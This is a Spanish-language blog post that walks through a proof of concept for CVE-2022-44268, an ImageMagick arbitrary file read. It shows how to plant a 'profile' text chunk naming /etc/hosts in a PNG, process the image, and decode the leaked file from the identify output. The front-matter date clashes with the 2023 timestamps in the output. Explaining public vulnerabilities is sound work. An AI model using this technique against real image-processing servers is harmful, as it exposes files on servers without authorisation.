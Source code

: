 ```yaml
---
title: ImageMagick - la vulnerabilidad oculta detrás de tus imágenes online
date: 2022-02-05 09:00:00 
categories: [HACKING]
tags: [hacking, vulnerabilidad]
description: Recientemente se han descubierto dos vulnerabilidades en ImageMagick 7.1.0-49 un DoS (CVE-2022-44267) y un Information Disclosure (CVE-2022-44268). Nos vamos a centrar en esta última ya que creo que es bastante más interesante.
image: /assets/41/preview1.png
--- 
```


Cuando se agrega un fragmento de texto (por ejemplo, tEXt), si la palabra clave es la cadena "profile" (sin comillas), ImageMagick interpreta la cadena de texto como un nombre de archivo y carga el contenido como un profile sin procesar (si el binario de ImageMagick tiene permisos para leerlo). 

El resultado es que un atacante podría aprovechar ésto para leer arbitrariamente ficheros de un servidor que utiliza ImageMagick para procesar imágenes...

La PoC es además supersencilla.

1. Primero instalamos las dependencias:

        $ apt-get install pngcrush imagemagick exiftool exiv2 -y

2. Añadimos el chunk de texto con el nombre del fichero que queremos leer:

        $ pngcrush -text a "profile" "/etc/hosts" hacker.png 

        Recompressing IDAT chunks in hacker.png to pngout.png
        Total length of data found in critical chunks            =    319742
        Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =    328105

        CPU time decode 0.043105, encode 0.648451, other 0.002684, total 0.696421 sec

3.  Ahora tratamos la imagen con ImageMagick para explotar la vulnerabilidad, en el ejemplo simplemente con el comando convert pero en un entorno real podría detonarse simplemente subiéndo la imágen a un servidor vulnerable:

        $ convert pngout.png oculto.png
        convert-im6.q16: keyword "Raw profile type ": bad character '0x20' `oculto.png' @ warning/png.c/MagickPNGWarningHandler/1668.

![Imagen 01](/assets/41/041.png)
    
Y ya está, ahora simplemente vemos el contenido incrustado en la imagen resultante (te lo resalto en amarillo):

    $ identify -verbose oculto.png
    Image:
    Filename: oculto.png
    Format: PNG (Portable Network Graphics)
    Mime type: image/png
    Class: DirectClass
    Geometry: 512x512+0+0
    Resolution: 118.11x118.11
    Print size: 4.33494x4.33494
    Units: PixelsPerCentimeter
    Colorspace: sRGB
    Type: TrueColor
    Base type: Undefined
    Endianness: Undefined
    Depth: 8-bit
    Channel depth:
        red: 8-bit
        green: 8-bit
        blue: 8-bit
    Channel statistics:
        Pixels: 262144
        Red:
        min: 0  (0)
        max: 255 (1)
        mean: 88.2626 (0.346128)
        standard deviation: 73.5068 (0.288262)
        kurtosis: -0.553267
        skewness: 0.75696
        entropy: 0.960805
        Green:
        min: 0  (0)
        max: 255 (1)
        mean: 120.885 (0.474058)
        standard deviation: 90.0684 (0.35321)
        kurtosis: -1.5098
        skewness: 0.223454
        entropy: 0.953738
        Blue:
        min: 0  (0)
        max: 255 (1)
        mean: 130.047 (0.50999)
        standard deviation: 85.4641 (0.335153)
        kurtosis: -1.51198
        skewness: 0.0835374
        entropy: 0.971014
    Image statistics:
        Overall:
        min: 0  (0)
        max: 255 (1)
        mean: 113.065 (0.443392)
        standard deviation: 83.0131 (0.325542)
        kurtosis: -1.33275
        skewness: 0.359084
        entropy: 0.961852
    Rendering intent: Perceptual
    Gamma: 0.454545
    Chromaticity:
        red primary: (0.64,0.33)
        green primary: (0.3,0.6)
        blue primary: (0.15,0.06)
        white point: (0.3127,0.329)
    Background color: white
    Border color: srgb(223,223,223)
    Matte color: grey74
    Transparent color: black
    Interlace: None
    Intensity: Undefined
    Compose: Over
    Page geometry: 512x512+0+0
    Dispose: Undefined
    Iterations: 0
    Compression: Zip
    Orientation: Undefined
    Profiles:
        Profile-icc: 672 bytes
    Properties:
        date:create: 2023-02-05T18:35:18+00:00
        date:modify: 2023-02-05T18:35:18+00:00
        exif:BitsPerSample: 8, 8, 8
        exif:ColorSpace: 1
        exif:DateTime: 2023:02:05 12:24:50
        exif:ExifOffset: 190
        exif:ImageLength: 512
        exif:ImageWidth: 512
        exif:Software: GIMP 2.10.30
        exif:thumbnail:BitsPerSample: 8, 8, 8
        exif:thumbnail:Compression: 6
        exif:thumbnail:ImageLength: 256
        exif:thumbnail:ImageWidth: 256
        exif:thumbnail:JPEGInterchangeFormat: 328
        exif:thumbnail:JPEGInterchangeFormatLength: 13885
        exif:thumbnail:PhotometricInterpretation: 6
        exif:thumbnail:SamplesPerPixel: 3
        icc:copyright: Public Domain
        icc:description: GIMP built-in sRGB
        icc:manufacturer: GIMP
        icc:model: sRGB
        png:bKGD: chunk was found (see Background color, above)
        png:cHRM: chunk was found (see Chromaticity, above)
        png:iCCP: chunk was found
        png:IHDR.bit-depth-orig: 8
        png:IHDR.bit_depth: 8
        png:IHDR.color-type-orig: 2
        png:IHDR.color_type: 2 (Truecolor)
        png:IHDR.interlace_method: 0 (Not interlaced)
        png:IHDR.width,height: 512, 512
        png:pHYs: x_res=11811, y_res=11811, units=1
        png:text: 23 tEXt/zTXt/iTXt chunks were found
        png:tIME: 2023-02-05T18:35:18Z
        Raw profile type: 

        220
    3132372e302e302e31096c6f63616c686f73740a3132372e302e312e31096b79616b750a
    0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c65
    20666f7220495076362063617061626c6520686f7374730a3a3a3120202020206970362d
    6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30206970362d6c
    6f63616c6e65740a666630303a3a30206970362d6d636173747072656669780a66663032
    3a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f7574
    6572730a

        signature: 1218350006b7307477b7ba227324971bbf78de7a384d3ab2c12b0984f6fade13
        unknown: 1
    Artifacts:
        filename: oculto.png
        verbose: true
    Tainted: False
    Filesize: 340862B
    Number pixels: 262144
    Pixels per second: 26.1417MB
    User time: 0.010u
    Elapsed time: 0:01.010
    Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org



¿Lo has visto verdad? En hexadecimal...

    $ python3 -c 'print(bytes.fromhex("texto_en_hexadecimal").decode("utf-8"))'


    $ python3 -c 'print(bytes.fromhex("3132372e302e302e31096c6f63616c686f73740a3132372e302e312e31096b79616b750a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666530303a3a30206970362d6c6f63616c6e65740a666630303a3a30206970362d6d636173747072656669780a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a").decode("utf-8"))'
    127.0.0.1    localhost
    127.0.1.1    kyaku

    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters

Fuentes:

[https://www.metabaseq.com/imagemagick-zero-days/](https://www.metabaseq.com/imagemagick-zero-days/)

[https://github.com/agathanon/cve-2022-44268](https://github.com/agathanon/cve-2022-44268)

[https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)

